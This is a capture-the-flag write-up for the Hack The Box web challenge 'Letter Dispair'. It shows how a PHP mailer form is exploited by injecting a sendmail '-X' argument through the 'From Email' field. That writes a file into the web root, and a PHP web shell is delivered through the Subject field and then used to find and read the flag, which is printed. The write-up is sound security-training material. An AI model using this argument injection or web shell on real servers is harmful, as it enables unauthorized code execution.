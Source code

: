 # Writeup "Letter Dispair"

## Quick Info

<table>
   <tr><td><b> site       </b></td><td> Hack the Box                                                      </td></tr>
   <tr><td><b> url        </b></td><td> https://app.hackthebox.com/challenges/letter-dispair              </td></tr>
   <tr><td><b> discussion </b></td><td> https://forum.hackthebox.com/t/official-letter-dispair-discussion </td></tr>
   <tr><td><b> type       </b></td><td> challenge/web                                                     </td></tr>
   <tr><td><b> difficulty </b></td><td> easy                                                              </td></tr>
   <tr><td><b> startdate  </b></td><td> 2022-07-31                                                        </td></tr>
   <tr><td><b> enddate    </b></td><td> 2022-08-03                                                        </td></tr>
</table>

## Description

> A high-profile political individual was a victim of a spear-phishing attack. The email came from a legitimate government entity in a nation we don't have jurisdiction. However, we have traced the originating mail to a government webserver. Further enumeration revealed an open directory index containing a PHP mailer script we think was used to send the email. We need access to the server to read the logs and find out the actual perpetrator. Can you help?

## Description

We receive an IP and port to a server. When we access the server using a web browser, we see a directory listing with three files:

<p align="center">
   <img src="includes/letter-dispair-01.png" />
</p>

`mailer.php` displays a form for sending e-mails:

<p align="center">
   <img src="includes/letter-dispair-02.png" />
</p>

`mailer.zip` contains a copy of `mailer.php`, which allows us to analyse the source code.

A quick Google search tells us that PHP's `mail()`[^1] function allows remote code execution if the fifth parameter can be influenced by the user[^2]. Checking the source code reveals that the code is vulnerable. Whatever we put in the "From Email" field will be used as a parameter.

Following an article describing how to exploit the vulnerability[^3], we enter the following string in the "From Email" field to create a publicly-accessible PHP file whose contents we can manipulate:

```
relations@moi.gov.htb -X/var/www/html/rce.php
```

Our payload will be a makeshift PHP shell, which we enter into the "Subject" field. The following line would be sufficient:

``` php
<?php system($_GET["cmd"]); ?>
```

However, this is not very comfortable. We therefore improve the code to include a text field for entering commands and which formats the output:

``` html
<hr />
<form action="rce.php" method="get">
  <input type="text" id="cmd" name="cmd" value='<?php print($_GET["cmd"]); ?>' autofocus 
    onfocus="var temp_value=this.value; this.value=''; this.value=temp_value" />
</form>
<hr />
<pre>
  <?php system($_GET["cmd"]); ?>
</pre>
<hr />
```

After hitting the "Start Delivery" button, we reload the directory listing in order to verify that the file was created correctly. If no file is visible, we have to try different paths. In this case we are lucky on the first try:

<p align="center">
   <img src="includes/letter-dispair-03.png" />
</p>

We can now open our PHP shell and start looking for the flag. Using the following commands, we are successful:

``` bash
ls -la
whoami
find / -name *flag*
cat /flag.txt
```

<p align="center">
   <img src="includes/letter-dispair-04.png" />
</p>

```
HTB{4_l3tt3r_0f_h0p3_c0nqu3r1ng_d1sp4ir!}
```

### Sources

[^1]: https://www.php.net/manual/de/function.mail.php
[^2]: https://blog.sonarsource.com/why-mail-is-dangerous-in-php/
[^3]: https://www.saotn.org/exploit-phps-mail-get-remote-code-execution
